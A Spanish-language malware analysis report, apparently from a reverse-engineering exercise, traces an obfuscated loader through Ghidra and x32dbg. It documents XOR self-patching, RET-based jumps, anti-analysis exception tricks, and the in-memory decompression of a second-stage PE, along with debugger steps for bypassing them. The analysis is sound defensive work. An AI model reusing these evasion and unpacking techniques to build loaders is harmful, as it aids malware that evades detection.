Este comportamiento es relevante porque permite ocultar el destino real del flujo de ejecución y puede dificultar el análisis estático. En el contexto del flujo observado, `FUN_004020bd` parece ser el paso final de una secuencia formada por preparación de permisos de memoria, posible modificación de una región interna y transferencia de ejecución a dicha región. Por tanto, es compatible con autoparcheo, ejecución de código desofuscado en memoria o salto hacia una rutina interna previamente preparada.

-----


Tras analizar `FUN_00402116` y `FUN_004020bd,` la siguiente zona prioritaria es la dirección `0x0041577a.` Esta dirección es pasada como argumento a `FUN_00402116`, que modifica sus permisos mediante `VirtualProtectEx` con `PAGE_EXECUTE_READWRITE` sobre un tamaño de `0xe1b` bytes. Posteriormente, `FUN_004020bd` manipula la pila y utiliza `RET` para transferir el flujo hacia esa misma dirección. Por tanto, `0x0041577a` debe tratarse como posible destino de ejecución dinámico, código interno desofuscado o región preparada para autoparcheo.

------------


### **8.2.6 0x0041577a**

La dirección `0x0041577a `aparece referenciada desde `FUN_0040246c` y es construida de forma ofuscada mediante `XOR` antes de ser pasada como argumento a `FUN_00402116`. Esta dirección cae dentro de la sección `.rdata`, que normalmente contiene datos de solo lectura.

Posteriormente, `FUN_00402116` utiliza `VirtualProtectEx` sobre dicha región, con tamaño `0xe1b` y permisos `PAGE_EXECUTE_READWRITE.` Finalmente, `FUN_004020bd` manipula la pila y utiliza una instrucción `RET` para transferir el flujo hacia `0x0041577a`.

En la vista estática, Ghidra muestra esta zona como bytes no desensamblados, y los primeros bytes no parecen corresponder a código `x86` limpio. Esto sugiere que podría tratarse de una región ofuscada, cifrada o preparada dinámicamente antes de su ejecución. Por tanto, `0x0041577a` debe considerarse un destino dinámico de ejecución y <mark>una de las zonas prioritarias para análisis dinámico y volcado en memoria.</mark>


### **8.2.7 Función FUN_004022c1**
Esta función parece ser la rutina que transforma byte a byte la región preparada en `0x0041577a`.

La función `FUN_004022c1` actúa como una rutina de transformación byte a byte sobre la región recibida como parámetro. En el flujo analizado, dicha región corresponde a `0x0041577a`, previamente marcada como `PAGE_EXECUTE_READWRITE` mediante `VirtualProtectEx`. La función lee bytes de esa región, calcula un nuevo valor mediante `FUN_00402029` y sobrescribe la memoria original con el byte resultante. Posteriormente, el flujo es transferido a esa misma región mediante `FUN_004020bd`, lo que confirma un patrón de desofuscación o autoparcheo en memoria antes de la ejecución dinámica.


### **8.2.8 Función `0x402029`**
La función `FUN_00402029` actúa como una rutina auxiliar de transformación byte a byte. Es llamada desde `FUN_004022c1` y devuelve en `AL` el byte que posteriormente se escribe sobre la región modificada en memoria.

El núcleo de la función consiste en un bucle de 8 iteraciones que procesa bit a bit dos valores de entrada. En cada iteración extrae un bit de `param_1` y otro de `param_2`, los combina y reconstruye progresivamente el byte de salida. Aunque el código está rodeado de operaciones aritméticas y actualizaciones de `DAT_0041e418`, la lógica principal es equivalente a una operación `XOR` byte a byte.

Por tanto, `FUN_00402029` confirma que la muestra utiliza una rutina de desofuscación basada en XO``R para transformar la región `0x0041577a` antes de transferirle la ejecución mediante una instrucción `RET` indirecta.


## **8.3 Resolución dinámica de APIs**

Se revisaron las referencias cruzadas a `LoadLibraryA/W`, `LoadLibraryExA/W` y `GetProcAddress` para determinar si la muestra resolvía APIs dinámicamente. El análisis identificó la función `FUN_00402000` como un wrapper ofuscado de GetProcAddress, implementado mediante una secuencia `PUSH` + `RET` en lugar de una llamada directa.

En `FUN_0040246c` se observa la resolución dinámica de `GetTickCount` desde `kernel32.dll` mediante `LoadLibraryW` y `FUN_00402000`. Posteriormente, el puntero devuelto se invoca de forma indirecta. También se identifica una llamada a `LoadLibraryExA` con el nombre anómalo `0x64bc6d21.d`, que podría corresponder a una dependencia, señuelo o artefacto de ofuscación.

Por tanto, la muestra sí presenta resolución dinámica de APIs. Hasta el momento, la API confirmada como resuelta dinámicamente es GetTickCount, asociada a la lógica de temporización observada en el flujo inicial.


## **8.4 Comprobaciones anti-análisis**
Durante el análisis estático avanzado se revisaron varias `APIs` asociadas habitualmente a técnicas anti-análisis, anti-debugging, fingerprinting del entorno o anti-emulación. Las `APIs` consideradas fueron `IsDebuggerPresent`, `GetTickCount`, `QueryPerformanceCounter`, `Sleep`, `GetVersion` y `GetEnvironmentVariableW`.

La presencia de estas `APIs` en la tabla de `imports` no implica necesariamente que todas se utilicen con finalidad evasiva. Por ello, se revisaron sus referencias cruzadas y su uso dentro del flujo inicial de ejecución.


| API                       | Evidencia observada                                                                                                                                     | Valoración                                                                                               |
| ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `IsDebuggerPresent`       | Aparece importada en `KERNEL32.dll`.                                                                                                                    | Indicio de capacidad anti-debug, pero no se ha confirmado uso relevante en las funciones analizadas.     |
| `GetTickCount`            | Se llama en `FUN_00402af3` y `FUN_0040246c`; además se resuelve dinámicamente mediante `LoadLibraryW("kernel32.dll")` y un wrapper de `GetProcAddress`. | Relevante. Se usa en cálculos internos y lógica temporal.                                                |
| `QueryPerformanceCounter` | Aparece importada.                                                                                                                                      | Potencial indicador de comprobaciones temporales, pero no se ha confirmado uso en el flujo analizado.    |
| `Sleep`                   | Aparece importada.                                                                                                                                      | Puede usarse para retardos o evasión, pero no se ha observado su uso directo en las funciones revisadas. |
| `GetVersion`              | Se usa en `FUN_0040246c`.                                                                                                                               | Relevante como fingerprinting básico del sistema operativo.                                              |
| `GetEnvironmentVariableW` | Se usa en `FUN_0040246c` con nombres de variables anómalos como `0x7f44db81` y `0x4ae6ada3`.                                                            | Relevante como posible comprobación de entorno o configuración oculta.                                   |


En conclusión, la muestra presenta indicios de anti-análisis principalmente en `FUN_0040246c`, donde se combinan consultas de entorno, temporización, resolución dinámica de `APIs` y bucles de retardo. La técnica más sólida observada es el uso de `GetTickCount`, tanto de forma directa como resuelta dinámicamente, junto con variables de entorno anómalas y lógica condicional que puede afectar al flujo de ejecución.

**Para validar este apartado en dinámico:** Ponemos breakpoints en `GetTickCount`, `GetEnvironmentVariableW`, `GetVersion`, `IsDebuggerPresent`, `QueryPerformanceCounter` y `Sleep`. Lo importante será confirmar si `IsDebuggerPresent`, `Sleep` y `QueryPerformanceCounter` se ejecutan realmente o sólo están importadas. En cambio, `GetTickCount`, `GetVersion` y `GetEnvironmentVariableW` ya aparecen en el flujo de `FUN_0040246c`.


## **8.5 Persistencia y modificación del sistema**
Para comprobar la persistencia y modificación del sistema, en Ghidra debemoss comprobar si las `APIs` sólo están importadas o si realmente tienen `XREF` de llamada dentro del código: Pasos en Ghidra. Vamos a: `Symbol Tree → Imports → ADVAPI32.dll`. Y buscamos una a una:

```bash
RegCreateKeyExW
RegSetValueExW
CreateServiceW
StartServiceW
OpenSCManagerW
RegOpenKeyW
RegOpenKeyExW
RegDeleteKeyW
RegDeleteValueW
```

Sobre cada `API`:

```bash
Right click → Show References To
```

La muestra importa APIs asociadas a persistencia por servicios y Registro, pero en Ghidra las referencias observadas son de tipo DATA, es decir, entradas de la IAT/import table. No se observan llamadas reales desde código hacia esas APIs en las capturas revisadas:












La muestra importa APIs asociadas a persistencia por servicios y Registro, pero en Ghidra las referencias observadas son de tipo DATA, es decir, entradas de la IAT/import table. No se observan llamadas reales desde código hacia esas APIs en las capturas revisadas.

| API revisada      | Referencia observada | Contexto   | Interpretación                                                                                                    |
| ----------------- | -------------------: | ---------- | ----------------------------------------------------------------------------------------------------------------- |
| `CreateServiceW`  |         `0x0041104c` | `DATA`     | Está importada, pero no se confirma creación de servicio.                                                         |
| `StartServiceW`   |         `0x00411064` | `DATA`     | Está importada, pero no se confirma inicio de servicio.                                                           |
| `RegCreateKeyExW` |         `0x0041105c` | `DATA`     | Está importada, pero no se confirma creación de claves de Registro.                                               |
| `OpenSCManagerW`  |         `0x00411030` | Import/IAT | Debe tratarse igual si sólo aparece como referencia de datos. No confirma acceso real al Service Control Manager. |

Las APIs de servicios y Registro están presentes en la IAT, pero su presencia parece ser potencial o residual. En el análisis estático avanzado no se confirma persistencia mediante servicios ni escritura de claves de Registro.


## **8.6 Comunicación de red**
Primero veremos si sólo están importadas o si hay llamadas reales desde código. En Ghidra revisamos:

```bash
Symbol Tree → Imports → WINHTTP.dll
```

Y hasemos `Show References To` sobre:
```bash
WinHttpOpen
WinHttpConnect
WinHttpOpenRequest
WinHttpSendRequest
WinHttpReceiveResponse
WinHttpReadData
WinHttpQueryHeaders
WinHttpSetOption
WinHttpCloseHandle
```

Para evaluar una posible capacidad de comunicación de red se revisaron las referencias cruzadas a las `APIs` importadas desde `WINHTTP.dll`, concretamente `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse`, `WinHttpReadData`, `WinHttpQueryHeaders`, `WinHttpSetOption` y `WinHttpCloseHandle`.

La revisión en Ghidra muestra que estas `APIs` están presentes en la tabla de imports, pero sus referencias corresponden únicamente a entradas de tipo `DATA` dentro de la `IAT`. No se han observado llamadas directas desde código hacia estas funciones.

En conclusión, la muestra presenta capacidad potencial de `comunicación HTTP/HTTPS` por la presencia de imports de `WINHTTP.dll`, pero el análisis de `XREFs` en Ghidra no confirma uso real de estas `APIs`. En esta fase no se identifican host, puerto, path, headers ni `URLs`. La validación definitiva debe realizarse mediante análisis dinámico, especialmente después de la ejecución de la rutina que modifica y transfiere el flujo hacia `0x0041577a`.


----

<mark>En red, `ANY.RUN` registra actividad significativa: `40 peticiones HTTP(S)`, `60 conexiones TCP/UDP`, `23 consultas DNS` y múltiples alertas de tráfico malicioso. Entre las detecciones de red aparecen reglas como `ET MALWARE Generic - POST To .php w/Extended ASCII Characters` y `ET HUNTING GENERIC SUSPICIOUS POST to Dotted Quad with Fake Browser 1`. Esto es especialmente importante porque en nuestro análisis estático visible no confirmamos llamadas reales a `WinHTTP`, sólo imports. La explicación probable es que la comunicación de red esté en la región desofuscada dinámicamente, es decir, después del salto hacia 0x0041577a.</mark>


<mark>El informe de FileScan marca las APIs WinHTTP como capacidad de acceso a Internet, pero no como amenaza confirmada. Esto coincide con nuestro análisis en Ghidra: las APIs WinHTTP están importadas, pero las XREF observadas eran de tipo DATA, sin llamadas directas confirmadas en el código visible.</mark>

La muestra funciona como un binario ofuscado/loader: contiene indicios de packing, usa APIs de cambio de permisos de memoria, transforma una región interna y transfiere ejecución hacia código preparado dinámicamente. Las capacidades de red, servicios y persistencia permanecen como potenciales en FileScan, pero no quedaron confirmadas como llamadas reales en el código visible de Ghidra.


Con la información obtenida de FileScan tendríamos que hacer una segunda comprobación dirigida en Ghidra. FileScan confirma que la muestra es `Confirmed Threat`, extrae varios ficheros y menciona un fichero `unpacked PE32 de 232 KB`, además de indicadores por imports de privilegios, inyección, `WinHTTP`, Registro y servicios. FileScan está viendo un “unpacked”, y nosotros en Ghidra hemos visto una rutina que modifica `0x0041577a`, cambia permisos con `VirtualProtectEx`, desofusca y salta a esa región. Eso encaja muy bien.


El binario original es una fase ofuscada/loader. La lógica real probablemente aparece en el PE desempaquetado o en la región 0x0041577a tras la desofuscación. Por tanto, el análisis avanzado debe continuar sobre el código desempaquetado, no sólo sobre el PE original.

El informe de FileScan identifica un fichero extraído mediante PE unpacking, distinto del binario original, con SHA-256 ca7c00e252b8baf7fd8d284fccb23fe9d34f9fe45f0fa8e7a00bcc46c95440f3. Este fichero tiene formato PE32 GUI Intel 80386 y un tamaño de 232 KB, superior al tamaño del ejecutable original.

Este hallazgo refuerza la hipótesis obtenida en Ghidra: la muestra original actúa como stub/loader ofuscado que prepara y desofusca una segunda etapa o representación desempaquetada en memoria. Por tanto, el análisis debe continuar sobre el PE desempaquetado extraído por FileScan, ya que puede contener la lógica funcional que en el binario original sólo aparecía como capacidad potencial por imports.


## **8.7 El path que aparecía en los strings**

El PDB path existe como string embebida, pero no tiene uso funcional identificado en Ghidra:






La ruta PDB `Z:\as\28cxkoao\azoozykz\l0t\jx\w9y4cni\jyc6mq3\mvnt.pdb` aparece embebida en el binario como artefacto de depuración. En Ghidra se identifica como string en la dirección `0x00417720`, pero el análisis de referencias cruzadas muestra `0 locations`, por lo que no se ha observado uso funcional de esta cadena en el código.

No hay evidencia de que la muestra utilice esta ruta para acceder al sistema de archivos, cargar módulos, crear ficheros o realizar comprobaciones del entorno. Por tanto, debe tratarse como un artefacto de compilación/debug útil para fingerprinting y correlación entre muestras, pero no como una ruta operativa empleada durante la ejecución.


## **8.7 Conclusiones del análisis estático avanzado**

El análisis estático avanzado en Ghidra ha permitido reconstruir parte del flujo inicial de la muestra y diferenciar entre capacidades simplemente importadas y funcionalidades realmente observadas en el código.

El punto de entrada `0x004074e6` actúa como un stub inicial que llama a `FUN_004041db` y transfiere el flujo hacia `FUN_00402af3`. A partir de ahí, se identifica una cadena de funciones relevante formada por `FUN_00402af3`, `FUN_00402a5f`, `FUN_0040246c`, `FUN_00402116`, `FUN_004022c1`, `FUN_00402029` y `FUN_004020bd`.

Uno de los hallazgos más importantes es la existencia de una rutina de **desofuscación/autoparcheo en memoria**. La muestra construye la dirección `0x0041577a`, ubicada dentro de la sección `.rdata`, modifica sus permisos mediante `VirtualProtectEx` con permisos `PAGE_EXECUTE_READWRITE` y posteriormente transforma su contenido byte a byte. Finalmente, transfiere la ejecución a esa misma región mediante una técnica basada en manipulación de pila y `RET`, evitando un salto directo evidente.

También se confirma la existencia de **resolución dinámica de APIs**. La función `FUN_00402000` actúa como un wrapper ofuscado de `GetProcAddress`, implementado mediante una secuencia `PUSH` + `RET`. En el flujo analizado se utiliza para resolver dinámicamente `GetTickCount` desde `kernel32.dll`, que posteriormente se invoca de forma indirecta.

En relación con las comprobaciones anti-análisis, la función más relevante es `FUN_0040246c`. En ella se observan consultas a variables de entorno con nombres anómalos, llamadas a `GetTickCount`, `GetVersion`, uso de átomos globales, comprobaciones condicionales y bucles de retardo. Este conjunto de comportamientos es compatible con técnicas de anti-emulación, fingerprinting del entorno o control del flujo en función de condiciones específicas del sistema.

Respecto a persistencia y modificación del sistema, aunque la muestra importa APIs como `CreateServiceW`, `StartServiceW`, `OpenSCManagerW`, `RegCreateKeyExW` y `RegSetValueExW`, las referencias cruzadas revisadas en Ghidra corresponden únicamente a entradas de tipo `DATA` en la IAT. Por tanto, no se confirma persistencia mediante servicios ni escritura de claves de Registro en el código analizado. La única interacción real observada con el Registro es una llamada a `RegOpenKeyW`, que indica apertura o consulta de una clave, pero no persistencia por sí sola.

En cuanto a comunicación de red, la muestra importa varias APIs de `WINHTTP.dll`, como `WinHttpOpen`, `WinHttpConnect`, `WinHttpOpenRequest`, `WinHttpSendRequest`, `WinHttpReceiveResponse` y `WinHttpReadData`. Sin embargo, las XREF revisadas muestran únicamente referencias de tipo `DATA`, sin llamadas reales desde código. Además, no se han identificado dominios, URLs, direcciones IP, rutas HTTP, cabeceras ni user-agents en las cadenas extraídas. Por tanto, la comunicación de red queda como capacidad potencial, no confirmada en el código visible.

En conclusión, el análisis estático avanzado confirma que la muestra emplea técnicas de ofuscación, resolución dinámica de APIs, modificación de permisos de memoria y transferencia indirecta de ejecución hacia una región interna previamente transformada. Las capacidades de persistencia por servicios, escritura de Registro y comunicación WinHTTP permanecen como potenciales por imports, pero no se han confirmado mediante referencias de código en esta fase. El siguiente paso debe ser validar dinámicamente la región `0x0041577a`, especialmente después de su modificación en memoria, para determinar qué código se ejecuta realmente tras la desofuscación.


-----


Esta muestra parece ser un loader/stub ofuscado cuya parte visible prepara, desofusca y ejecuta código oculto en memoria. Todavía no hemos confirmado el payload final, porque la lógica importante parece estar en la región 0x0041577a, que se transforma en runtime.

La cadena principal que hemos reconstruido es:
```bash
entry
 → FUN_00402af3
 → FUN_00402a5f
 → FUN_0040246c
 → FUN_00402116
 → FUN_004022c1 / FUN_00402029
 → FUN_004020bd
 → salto a 0x0041577a
```

Lo importante es esto:
| Comportamiento                       |             Confirmado | Qué significa                                                                                     |
| ------------------------------------ | ---------------------: | ------------------------------------------------------------------------------------------------- |
| Se hace pasar por software legítimo  |                     Sí | Usa metadatos de “Advanced Task Scheduler”, pero con inconsistencias.                             |
| Usa PDB path                         | No como comportamiento | El path `Z:\...\mvnt.pdb` es un artefacto de compilación, no se usa en ejecución.                 |
| Tiene ofuscación                     |                     Sí | Hay bloques basura, bytes sin desensamblar, cálculos artificiales y control indirecto.            |
| Usa anti-análisis / fingerprinting   |        Parcialmente sí | Usa `GetTickCount`, `GetVersion`, variables de entorno raras, átomos y bucles de retardo.         |
| Resuelve APIs dinámicamente          |                     Sí | Usa un wrapper ofuscado de `GetProcAddress` para resolver `GetTickCount`.                         |
| Cambia permisos de memoria           |                     Sí | Usa `VirtualProtectEx` sobre `0x0041577a` con permisos `PAGE_EXECUTE_READWRITE`.                  |
| Desofusca código/datos en memoria    |                     Sí | `FUN_004022c1` recorre la región y `FUN_00402029` aplica una transformación tipo XOR byte a byte. |
| Transfiere ejecución a código oculto |       Sí, por estático | `FUN_004020bd` usa manipulación de pila + `RET` para saltar a `0x0041577a`.                       |


La muestra actúa como un binario ofuscado que prepara y ejecuta código oculto en memoria. Su fase visible realiza comprobaciones del entorno, resolución dinámica de APIs, modificación de permisos de memoria y desofuscación byte a byte de una región interna antes de transferirle la ejecución.

-----

**Lo que falta para saber “qué hace de verdad”:**

Falta analizar qué hay después del salto a 0x0041577a. Ese es probablemente el payload real o la siguiente etapa. Hasta que no dumpeemos esa región después de la desofuscación, no podemos afirmar si roba información, conecta a red, instala persistencia, descarga algo o sólo ejecuta más lógica interna.

El siguiente paso correcto es dinámico:
```bash
Breakpoint en VirtualProtectEx
→ confirmar 0x0041577a / 0xe1b / PAGE_EXECUTE_READWRITE
→ ejecutar la rutina de desofuscación
→ dumpear 0x0041577a después de modificarse
→ analizar el nuevo código
```

<mark>Conclusión corta: no parece un malware “directo” con C2 o persistencia visible; parece una muestra ofuscada que oculta su lógica principal y la prepara en memoria antes de ejecutarla.</mark>


# **9. Análisis dinámico controlado**

## **9.1 Preparación del entorno**
- VM Windows aislada.
- Snapshot previo.
- Sin acceso directo a Internet.
- Herramientas: x32dbg, Procmon, Process Explorer, Regshot, FakeNet-NG/Wireshark.

## **9.2 Validación de VirtualProtectEx**
- Breakpoint en `VirtualProtectEx`.
- Confirmar:
  - `lpAddress = 0x0041577a`
  - `dwSize = 0xe1b`
  - `flNewProtect = 0x40`
  - `PAGE_EXECUTE_READWRITE`



En la pila se ven los argumentos:
| Argumento        |      Valor | Interpretación                                |
| ---------------- | ---------: | --------------------------------------------- |
| `hProcess`       | `FFFFFFFF` | Proceso actual.                               |
| `lpAddress`      | `0041577A` | Región sospechosa dentro del binario.         |
| `dwSize`         | `00000E1B` | Tamaño de la región a modificar.              |
| `flNewProtect`   | `00000040` | `PAGE_EXECUTE_READWRITE`.                     |
| `lpflOldProtect` | `0019FBD8` | Dirección donde guardará permisos anteriores. |


Esto confirma dinámicamente lo que vimos en Ghidra:
```bash
VirtualProtectEx(
    -1,
    0x0041577A,
    0xE1B,
    PAGE_EXECUTE_READWRITE,
    &oldProtect
)
```

--------------


## **9.3 Volcado de la región 0x0041577a**
- Dumpear la región antes y después de `FUN_004022c1`.
- Comparar bytes.
- Ver si tras la transformación aparece código x86 válido.

Guardamos/dumpeamos la región antes de ejecutar la llamada: En el dump de x32dbg: `Ctrl+G → 0041577A`. Seleccionamos desde: `0041577A` hasta aproximadamente: `00416595`, porque:

```bash
0041577A + 0xE1B = 00416595
```

Guardamos esos bytes como:

```bash
before_0041577A.bin

```
Esto será la región antes de la desofuscación.

```bash
savedata C:\dump\before_0041577A.bin,0041577A,E1B
```

Después ejecutamoss VirtualProtectEx con F8, dejamoss que pase la rutina de transformación hasta 0040229F, y volvemos a guardar:



savedata C:\dump\after_0041577A.bin,0041577A,E1B

Luego comprueba que ambos ficheros pesan:

3611 bytes




Comparamos los ficheros:
```
fc /b C:\dump\before_0041577A.bin C:\dump\after_0041577A.bin
```



La región cambió. La salida de fc /b muestra diferencias desde el primer byte:
```bash
00000001: CA 8B
00000002: C3 EC
00000003: 42 83
00000004: 4B E4
```

Eso confirma que FUN_004022C1 ha modificado la región 0x0041577A después de VirtualProtectEx. Además, los primeros bytes del after son muy interesantes:


<mark>Conclusión: Hemos confirmado dinámicamente la desofuscación/autoparcheo de la región 0x0041577A.</mark>


**Flujo demostrado es:**
```bash
VirtualProtectEx
  → 0x0041577A pasa a PAGE_EXECUTE_READWRITE
  → FUN_004022C1 modifica la región
  → la región pasa de bytes ofuscados a código x86 válido
  → siguiente paso: confirmar el salto a 0x0041577A
```


## **9.4 Confirmación del salto indirecto**
- Breakpoint en `0x004020f0`, el `RET` de `FUN_004020bd`.
- Comprobar si `ESP` apunta a `0x0041577a`.
- Confirmar si `EIP` salta realmente a esa región.


Estamos parados en:

```bash
0040229F  CALL malware.004020BD
```

Ahora ponemos breakpoints:
```bash
bp 004020F0
bp 0041577A
```



Hemos entrado en FUN_004020BD.

Ahora mismo:

```bash
EIP = 004020BD
```

Y en la pila se ve:
```bash

[ESP]   = 004022A4   ; retorno normal tras CALL FUN_004020BD
[ESP+4] = 0041577A   ; argumento pasado a FUN_004020BD

```
Ese `0041577A` es la región que acabasmos de comprobar que fue modificada/desofuscada.


Pulsamos F9 --> paramos en 0040200F0 --> Miramos la pila. Lo que queremos ver es:
```bash
[ESP] = 0041577A
```




Estamos parados en:

```bash
004020F0    RET
```

Y lo importante está en la pila:

```bash
[ESP] = 0041577A
```

Eso significa que cuando ejecutemos ese RE``T, la CPU tomará `0041577A` como dirección de retorno. Es decir:

```bash
RET → EIP = 0041577A
```

Por tanto, ya tenemos casi confirmada la transferencia de ejecución hacia la región desofuscada.

---

Después de pulsar F7, debería ocurrir una de estas dos cosas:
| Resultado                         | Interpretación                                                                 |
| --------------------------------- | ------------------------------------------------------------------------------ |
| `EIP = 0041577A`                  | Confirmado: el flujo salta a la región desofuscada.                            |
| Salta al breakpoint en `0041577A` | También confirmado.                                                            |
| Se produce excepción              | Puede indicar código corrupto, anti-debug o que falta alguna condición previa. |


En el punto 0x004020F0 se confirma que la función FUN_004020BD ha manipulado la pila para colocar 0x0041577A como dirección de retorno. La cima de la pila contiene 0x0041577A, por lo que la instrucción RET transferirá el flujo hacia la región previamente modificada con VirtualProtectEx y desofuscada por FUN_004022C1.

------

pulsamos F7



```bash
EIP = 0041577A
```

y el código ahora aparece desensamblado como instrucciones `x86`, no como datos. Por tanto, la cadena queda confirmada dinámicamente:

```bash
VirtualProtectEx
→ 0x0041577A pasa a PAGE_EXECUTE_READWRITE
→ FUN_004022C1 modifica la región
→ FUN_004020BD coloca 0x0041577A en la pila
→ RET transfiere EIP a 0x0041577A
```

------------------


Hay un detalle muy importante: la primera instrucción en `0x0041577A` es:

```bash
0041577A    FA    cli
```

`CLI` es una instrucción privilegiada. En `userland` normalmente provoca una excepción. Esto puede ser una técnica anti-debug/anti-analysis o un truco de control de flujo mediante SEH. Justo después sí se ve un prólogo válido:

```bash
0041577B    8B EC              mov ebp, esp
0041577D    83 E4 F8           and esp, FFFFFFF8
00415780    81 EC 14010000     sub esp, 114
00415786    53                 push ebx
00415787    56                 push esi
```

Así que ahora haremos esto: Paso inmediato: Antes de ejecutar CLI, ponemos breakpoints de excepción/salida:
```bash
bp kernel32.ExitProcess
bp ntdll.RtlUnhandledExceptionFilter
bp kernel32.UnhandledExceptionFilter
```

Luego pulsamos F7 una sola vez sobre CLI.



Hemos ejecutado el primer byte de la región desofuscada:

```bash
0041577A    FA    cli
```

Y x32dbg muestra:

```bash
First chance exception on 0041577A (C0000005, EXCEPTION_ACCESS_VIOLATION)

```
Esto confirma que el flujo sí ha saltado a `0x0041577A`, pero al intentar ejecutar el primer byte se produce una excepción.

---------------------




La excepción en 0041577A al ejecutar CLI probablemente no es accidental. La muestra parece provocar una excepción al entrar en la región desofuscada y dejar que el SEH la gestione.

Esto puede servir para:
| Elemento                                        | Interpretación                                                                    |
| ----------------------------------------------- | --------------------------------------------------------------------------------- |
| `CLI` en userland                               | Provoca excepción al ejecutarse en modo usuario.                                  |
| SEH instalado en `malware.exe`                  | El binario espera gestionar excepciones propias.                                  |
| `_except_handler3`                              | Manejador típico asociado a compilador/runtime, pero usado aquí dentro del flujo. |
| Excepción justo al entrar en código desofuscado | Compatible con control de flujo por excepción / anti-análisis.                    |


Como es una first chance exception, probamos a pasarla al programa:

```bash
Shift + F9
```

Esto permite que el propio malware gestione la excepción con su SEH.

Después observamos dónde cae `EIP`: El proceso termina


La excepción en `0041577A` no está siendo recuperada correctamente en tu ejecución, y al pasarla al programa con `Shift+F9`, el proceso termina. Esto refuerza que el `byte FA / CLI` funciona como una técnica anti-análisis o anti-ejecución normal en userland.

--------------

Reiniciamos la muestra y paramos en el punto antes del salto a 0041577A. Cuando volcemos a estar en:

```bash
0041577A    FA    cli
```

Saltamos manualmente CLI: En x32dbg: Clic derecho sobre la instrucción en 0041577B:
```bash
0041577B    mov ebp, esp
```
Eligimos:
```bash
Set EIP Here
```





Ahora estamos después del CLI, en el inicio real del código desofuscado:

```bash
0041577B    mov ebp, esp
0041577D    and esp, FFFFFFF8
00415780    sub esp, 114
```

----------


## **9.5 Seguimiento del código desofuscado**
- Una vez dentro de `0x0041577a`, seguir ejecución.
- Identificar nuevas APIs llamadas.
- Ver si aparecen llamadas reales a red, servicios, Registro, procesos o memoria.


Hemos hecho correctamente el `bypass` de la instrucción que provocaba la excepción. Ahora no pulsamos F9 todavía. Primero vamos a preparar breakpoints para ver qué hace este código.
``` 
bp VirtualAlloc
bp VirtualProtect
bp VirtualProtectEx
bp CreateThread
bp CreateProcessW
bp CreateProcessA
bp WriteFile
bp CreateFileW
bp CreateFileA
bp LoadLibraryA
bp LoadLibraryW
bp GetProcAddress
bp WinHttpOpen
bp WinHttpConnect
bp WinHttpOpenRequest
bp WinHttpSendRequest
bp WinHttpReadData
bp RegSetValueExW
bp RegCreateKeyExW
bp OpenSCManagerW
bp CreateServiceW
bp StartServiceW
```


Como ya estamos dentro del código desofuscado, el objetivo es ver si aparecen llamadas a:

```bash
VirtualAlloc / VirtualProtect
CreateThread
CreateProcess
WinHttp*
Reg*
Service*
```





Pulsamos F8



El log confirma que seguimos teniendo la excepción en 0``041577A:

```bash
ExceptionAddress: 0041577A
ExceptionCode: C0000005
ExceptionInformation[0]: Read
ExceptionInformation[1]: F925DB66 Inaccessible Address
```

Como ya habíamos cambiado `FA cli` por `90 nop`, esto apunta a dos causas probables:

```bash
Tenemos todavía un breakpoint software en 0041577A y está interfiriendo.
La excepción quedó pendiente o el parche se aplicó demasiado tarde en esa ejecución.

```

Lo hacemos limpio así:

1. Quita el breakpoint de 0041577A

Ya no lo necesitamos. En la barra de comandos de x32dbg:

bc 0041577A

O ve a la pestaña Breakpoints y elimina/desactiva el breakpoint en 0041577A.

Mantén sólo estos:

004020F0
0040229F

Y, si quieres parar después del NOP, pon mejor breakpoint en:

bp 0041577B

No en 0041577A.

------------

Ahora estamos dentro del código desofuscado real en la región 0x0041577A:


```bash
EIP = 00415B37
Sección: .rdata
Región desofuscada
```

En la captura aparecen strings y referencias a APIs como:
```bash
RtlDecompressBuffer
VirtualAlloc
FlsFree
GetEnvironmentVariableA
UnmapViewOfFile
ntdll.dll
```

La etapa desofuscada está haciendo resolución dinámica de APIs y posiblemente preparando una descompresión/desempaquetado adicional.


-------

Tras aplicar el bypass de la instrucción CLI y continuar la ejecución de la región desofuscada 0x0041577A, se observa una nueva fase de resolución dinámica de APIs. En esta etapa aparecen referencias a funciones como VirtualAlloc, GetProcAddress, GetEnvironmentVariableA, UnmapViewOfFile y RtlDecompressBuffer.

La presencia de RtlDecompressBuffer es especialmente relevante, ya que sugiere que la muestra puede estar descomprimiendo una segunda etapa o payload interno en memoria. Este comportamiento encaja con el PE desempaquetado de 232 KB identificado por FileScan, por lo que el siguiente objetivo del análisis dinámico consiste en interceptar la llamada a RtlDecompressBuffer, localizar el buffer de salida y comprobar si contiene una cabecera PE válida.


El más importante ahora mismo es:

```bash
bp ntdll.RtlDecompressBuffer
```




Esto confirma que la capa desofuscada está intentando descomprimir un bloque en memoria.


La firma es:

```bash
NTSTATUS RtlDecompressBuffer(
  USHORT CompressionFormat,
  PUCHAR UncompressedBuffer,
  ULONG  UncompressedBufferSize,
  PUCHAR CompressedBuffer,
  ULONG  CompressedBufferSize,
  PULONG FinalUncompressedSize
);
```

En x32dbg, los argumentos estarán así:
| Argumento                | Pila       |
| ------------------------ | ---------- |
| `CompressionFormat`      | `[esp+4]`  |
| `UncompressedBuffer`     | `[esp+8]`  |
| `UncompressedBufferSize` | `[esp+C]`  |
| `CompressedBuffer`       | `[esp+10]` |
| `CompressedBufferSize`   | `[esp+14]` |
| `FinalUncompressedSize`  | `[esp+18]` |


En la captura:
| Argumento                |      Valor | Interpretación                                                   |
| ------------------------ | ---------: | ---------------------------------------------------------------- |
| `CompressionFormat`      | `00000002` | Formato de compresión, probablemente `COMPRESSION_FORMAT_LZNT1`. |
| `UncompressedBuffer`     | `022E0000` | Buffer de salida donde se escribirá el contenido descomprimido.  |
| `UncompressedBufferSize` | `0001AE00` | Tamaño máximo del buffer de salida.                              |
| `CompressedBuffer`       | `022C000C` | Buffer de entrada comprimido.                                    |
| `CompressedBufferSize`   | `00011B29` | Tamaño del bloque comprimido.                                    |
| `FinalUncompressedSize`  | `0019FA48` | Puntero donde guardará el tamaño real descomprimido.             |


-------


**Pulsamos: Ctrl + F9**




La descompresión ha funcionado y el buffer de salida contiene una cabecera PE válida:
```bash
022E0000: 4D 5A ...
```

Es decir:
```bash
MZ
```

Y más abajo se ve también la zona del stub DOS:
```bash
This program cannot be run in DOS mode
```

Por tanto, ya podemos afirmar que la muestra ha descomprimido un PE en memoria.
```bash
Además, EAX = 00000000, así que RtlDecompressBuffer ha terminado correctamente:
```


